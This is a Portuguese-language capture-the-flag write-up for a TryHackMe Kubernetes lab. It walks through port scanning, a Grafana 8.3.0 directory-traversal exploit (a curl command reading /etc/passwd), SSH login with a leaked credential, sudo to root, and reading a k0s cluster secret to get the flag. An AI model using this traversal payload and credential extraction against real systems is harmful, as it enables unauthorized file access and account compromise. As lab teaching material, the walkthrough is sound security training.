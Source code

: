 # CTF-Kubernetes4Everyone-THM-WriteUp

**DIficuldade:** Média

<h3> Eai, tudo beleza ? Terminei um curso focado em Kubernetes e nada melhor pra um hacker do que conhecer as coisas por outra perspectiva...</h3>

A maquina da vez se chama [Kubernetes-for-Everyone](https://tryhackme.com/room/kubernetesforyouly) focada em kubernetes, helm, kube cluster.

## Enumeração Inicial

`sudo nmap -sV -sC -T4 10.10.82.233`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
111/tcp  open  rpcbind 2-4 (RPC #100000)
3000/tcp open  ppp?
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.12)
|_http-title: Etch a Sketch
6443/tcp open  ssl/sun-sr-https?
|     Content-Type: application/json
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"Unauthorized","reason":"Unauthorized","code":401}

```

> Essa porta 6443 trouxe algo diferente né ?

### Verificando porta 3000

`gobuster dir -u http://10.10.82.233:3000 --exclude-length 28034 -t 100 -r -x php,txt,html -w dir-med.txt 2>/dev/null`

```
/signup               (Status: 200) [Size: 27985]
/verify               (Status: 200) [Size: 27985]
/apidocs              (Status: 401) [Size: 32]   
/apidocs.php          (Status: 401) [Size: 32]
```

### http://10.10.82.233:3000
![image](https://user-images.githubusercontent.com/32500664/171016081-b0538e15-872e-41a0-908f-691d741d4cf6.png)
> A pagina do login mostra que a versão é 8.3.0.

### Procurando aquela lembrancinha pra galera do SOC conseguimos achar um [directory transversal attack](https://www.exploit-db.com/exploits/50581)
![image](https://user-images.githubusercontent.com/32500664/171017237-eb880424-92b3-4d4b-a5e6-85ea38d40e62.png)
>Dando uma lida no exploit basicamente o payload enviado é
`url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read`
>O exploit tambem lista todos os plugins. Um dos primeiros é o AlertList, decido então usar o path até ele para ler arquivos interessantes.
### Importante usar a opção –path-as-is se não a request não vai funcionar
`curl http://10.10.82.233:3000/public/plugins/alertlist/../../../../../../../../../../etc/passwd --path-as-is`
>output
```
...
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
grafana:x:472:0:<Senha>:/home/grafana:/sbin/nologin

```
### Temos um possivel senha, mas e o usuário ?

#Porta 5000
![image](https://user-images.githubusercontent.com/32500664/171029201-7863e741-b74b-48f5-9db1-306e7bdb4c4c.png)

No source algo interessante no arquivo main.css.
![image](https://user-images.githubusercontent.com/32500664/171029492-b87e057f-a536-4d0a-8c87-14aa1507944a.png)]

>Conteudo dá url Pastebin
>"OZQWO4TBNZ2A===="
`echo "OZQWO4TBNZ2A====" | base32 -d`
Output:
>vagrant
Uma possivel senha ou usuário ?

# Acesso a maquina.
Usando o usuário do senha do arquivo passwd e o possivel usuário do main.css...
```
ssh Usuário@10.10.35.154 

Usuário@10.10.35.154's password: ***************

Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


248 packages can be updated.
192 updates are security updates.


Last login: Thu Feb 10 18:58:49 2022 from 10.0.2.2
vagrant@Sant:~$
```

Usando `sudo -l` descobrimos que podemos executar qualquer comando como sudo.
>Um simples `sudo su` e temos root

# Procurando as flags

Um root simples demais e a flag aparentemente dificil... Nada no /home e no /root.

>Usando o comando top recebemos...
```
   35 root      20   0       0      0      0 S 20.4  0.0   6:56.84 kswapd0                                                                                             
 1824 kube-ap+  20   0  766848  17428   1276 S 16.1  3.5   1:13.15 kube-controller                                                                                     
 1490 root      20   0  739920  10680    968 S 10.9  2.2   1:25.75 containerd                                                                                          
 1177 472       20   0  786592  13112   4812 S  9.2  2.7   2:33.98 grafana-server                                                                                      
 1298 vagrant   20   0   29820   4716    372 R  6.3  1.0   7:19.36 python3                                                                                             
 1413 root      20   0  787356  21628   1848 S  6.0  4.4   2:05.88 k0s                                                                                                 
```
Percebemos que estamos em uma distro k0s

Como a própria pergunta diz...
`k0s kubectl get secret`

```
NAME                  TYPE                                  DATA   AGE
default-token-nhwb5   kubernetes.io/service-account-token   3      85d
k8s.authentication    Opaque                                1      85d
```
`k0s kubectl edit secret k8s.authentication`
```
# Please edit the object below. Lines beginning with a '#' will be ignored,
# and an empty file will abort the edit. If an error occurs while saving this file will be
# reopened with the relevant failures.
#
apiVersion: v1
data:
  id: VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9
kind: Secret
metadata:
  creationTimestamp: "2022-02-10T18:58:02Z"
  name: k8s.authentication
  namespace: default
  resourceVersion: "515"
  uid: 416e4783-03a8-4f92-8e91-8cbc491bf727
type: Opaque
```
### O ID é meio suspeito...
`echo "VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9" | base64 -d`
`THM{***_*_*_****__*_*_}`
